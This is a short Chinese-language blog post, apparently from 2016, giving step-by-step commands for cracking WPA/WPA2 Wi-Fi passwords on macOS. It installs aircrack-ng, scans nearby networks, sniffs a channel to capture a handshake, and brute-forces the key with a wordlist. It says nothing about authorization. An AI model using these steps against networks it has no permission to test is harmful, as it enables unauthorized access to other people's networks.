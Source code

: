 ```yaml
---
layout: post
title: mac osx 破解wpa/wpa2 wifi
date: 2016-01-06 23:35:26
categories: technique
tags: [mac, tool]
keywords: [wifi, hack, crack]
toc:
---
```


在mac osx下进行wpa/wpa2 加密的wifi破解

- 首先要安装`aircrack-ng`工具
```
#可以使用Homebrew进行安装

brew install aircrack-ng
```
如果安装过程中出现下载失败, [这篇文章](/2016/01/06/brew-手工下载文件安装/)

- 用airport搜索附近wifi
```
sudo airport -s
```
<!-- more -->
结果如下图所示:
![airport -s output](/source/images/2016/airport_s.png)
- 根据搜索出的wifi进行嗅探
```
sudo airport ***en0*** sniff ***1***
```
上面的en0为wifi card所在的地址, 有的也可能为en1, 可以根据实际情况输入, 可从以下地方获得:
![wifi card addr](/source/images/2016/wificard_addr.png)

1为你所要嗅探的wifi所在的CHANNEL.

默认嗅探的所存的文件在/tmp中, 以airportSniff****.cap形式命名.

- 最后就是使用aircrack-ng和下载的密码字典进行暴力破解
```
aircrack-ng -w wordlist airportSniff****.cap
```
一般输入如下所示:
![aircrack-ng run output](/source/images/2016/aircrack-ng.png)

看上面cap文件内的抓包内容, Encryption列中找到WPA (1 handshake)---它表示抓包成功. 当然要找到你想破解wifi的成功抓包, 然后在「Index number of target network?」中输入该成功抓包所在的行号. 此示例中为1:
![index number](/source/images/2016/index_number.png)

破解过程如下:
![aircrack-ng running](/source/images/2016/running.png)

如果破解成功, 会显示 KEY FOUND!:
![aircrack-ng crack successfully](/source/images/2016/aircrack-ng-success.jpg)
